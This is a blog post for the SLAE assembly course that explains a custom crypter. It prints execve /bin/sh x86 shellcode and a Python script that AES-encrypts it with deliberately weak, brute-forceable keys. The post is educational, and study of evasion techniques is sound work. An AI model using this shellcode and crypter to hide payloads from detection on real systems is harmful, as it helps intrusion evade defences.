 ```yaml
---
layout: single
title: SLAE Assignment 6 -- Polymorphic Shellcode
date: 2019-5-13
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - shellcoding
  - encryption
  - AES
  - python
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Custom Crypter 

For this assignment the goal is create a custom encryption/decryption scheme for our shellcode. This assignment was a lot of fun. I didn't want to do something boring, so I tried to incorporate some hacker lore into my encryption scheme. 

I liked the idea that Mr. Ramachandran discussed about Hyperion how it uses a weak encryption scheme and then brute forces its own key at run time, so I tried to execute something vaguely similar with AES by just making my key and initialization vector (IV) extremely weak. 

## Encryption Code

Essentially, the encryption scheme creates an initialization vector as follows:
+ generates a list of `10` random integers between `1` and `1337`,
+ takes the 5th and 9th number in the list and averages them,
+ removes any decimal places, and
+ converts the `int` to a `str` and adds the appropriate size padding to make the IV 16 bytes. 

For key generation, the encryption scheme randomly selects one of the following names:
+ Kate Libby,
+ Ramon Sanchez, 
+ Paul Cook,
+ Eugene Belford,
+ Dade Murphy,
+ Joey Pardella, and
+ Emmanuel Goldstein.

The names have been altered slightly to account for the 16 byte size requirement for AES keys. 

For the actual encryption, I used modules from the pycrypt library such as `from Crypto.Cipher import AES` and `from Crypto.Random import random`. 

Our shellcode is `execve /bin/sh`, 
```terminal_session
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Our shellcode length was only 25 bytes, and AES has a requirement for multiples of 16 for its data length so I used some dynamic padding with `\xff` bytes. 

When run, the encryption scheme will tell you how many bytes of padding it added so that the decryption program can know how many bytes to cut off the end. 

## Encryption Code

The code below has been heavily commented so you can follow along. Let's have some fun!

```python
from Crypto.Cipher import AES
from Crypto.Random import random
import random
import heapq
import statistics

shellcode = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#Let's generate 10 random numbers, 1-1337
seed = []
for i in range (9):
	seed.append(random.randrange(1,1337,1))

#Let's take the 5th and 9th number in that list (5/9)
fiveNineList = [seed[4], seed[8]]

#Let's average those two numbers
def average(fiveNineList): 
	return sum(fiveNineList) / len(fiveNineList)

iv = average(fiveNineList)

#Let's just cut off any decimal places &make it a string
iv = int(iv)
iv = str(iv)

#list of famous hackers (16 byte ready)
nameList = ["Kate Libby123456", "Ramon Sanchez123", "Paul Cook1234567", "Eugene Belford12", "Dade Murphy12345", "Joey Pardella123", "E Goldstein12345"]

key = random.choice(nameList)

#Let's get our iv up to 16 bytes
ivPadding = 16 - len(iv)

if ivPadding == 12:
	iv = "This is padd" + iv

elif ivPadding == 13:
	iv = "This is paddi" + iv

elif ivPadding == 14:
	iv = "This is paddin" + iv

elif ivPadding == 15:
	iv = "This is padding" + iv

#Let's get our shellcode up to 32 bytes (has to be multiple of 16)

shellPad = 32 - len(shellcode)

shellPadBytes = b'\xff' * shellPad

shellcode = shellcode + shellPadBytes

#This is where we do our actual encryption!
aes = AES.new(key, AES.MODE_CBC, iv)
data = shellcode
encd = aes.encrypt(data)

#Let's get it into printable format!
output = "" 

for x in bytearray(encd):
	output += "\\x"
	output += '%02x'% x

#Here, we're just printing the encrypted shellcode and describing the 'Offset' which is just the number of 0xff's we added to the end of the encrypted string so that our decrypter can take those off.
print("Encoded Shellcode: " + output)
print("Offset: " + str(shellPad))
```

## Github

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment6)
